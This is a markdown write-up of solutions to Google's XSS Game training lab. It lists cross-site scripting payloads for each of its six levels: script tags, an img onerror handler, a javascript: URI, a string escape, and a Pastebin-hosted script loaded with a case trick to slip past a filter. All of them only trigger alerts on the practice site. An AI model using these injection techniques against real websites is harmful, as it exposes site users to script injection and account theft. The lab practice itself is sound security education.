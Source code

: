 # 🛡️ XSS Game Solutions 🛡️  
---  
**https://xss-game.appspot.com/**  
Hello there, thank you sooo much for reading! 😊  
Here are my solutions to the Google XSS game.  
⚠️ *Note: Some challenges don’t work on every browser—try multiple ones!*  

---

## 🧠 Level 1: Hello, world of XSS  
**Solution:** `<script> alert("hi") </script>`  

- 🚀 Simply inject a `<script>` tag with the `alert()` function.  

---

## 🖼️ Level 2: Persistence is key  
**Solution:** `<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>`  

- 🛡️ Exploit the `onerror` event by posting a broken image.  
- 🧠 `String.fromCharCode(88,83,83)` decodes to "XSS" (88=X, 83=S).  

---

## 🔍 Level 3: That sinking feeling...  
**Solution:** `http://xss-game.appspot.com/level3/frame#1`' onerror="alert('XSS')"`  

- 🌐 Inject into the URL bar.  
- 🔄 Use a `'` to break the frame URL, triggering `onerror`.  
- ⚠️ *Works in Chrome but not all browsers!*  

---

## 🔑 Level 4: Context matters  
**Solution:** `');alert('xss`  

- 🔄 Escape the existing function with `');`  
- 🧠 Inject `alert('xss')` to execute the payload.  

---

## 🔌 Level 5: Breaking protocol  
**Solution:** `http://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("XSS")`  

- 🛠️ Press **Sign Up**, then modify the `next` parameter to run JS.  
- 🚀 `javascript:alert("XSS")` executes directly.  

---

## 📁 Level 6: Follow the white rabbit  
**Solution:** `http://xss-game.appspot.com/level6/frame#hTTP://pastebin.com/raw/ycjGCXDY`  

- 📄 Paste `alert("XSS");` on [Pastebin](https://pastebin.com/).  
- 🔄 Get the raw link and inject it into the URL.  
- 🔄 Modify `http` to `hTTP` to bypass basic filters.  

---

## 🎉 Final Thoughts 🎉  
- 🧪 Always validate/sanitize user input.  
- 🛡️ Use **Content Security Policy (CSP)** to block unauthorized scripts.  
- 🌐 Stay curious and test securely!  

*Happy hacking!* 🧠💥
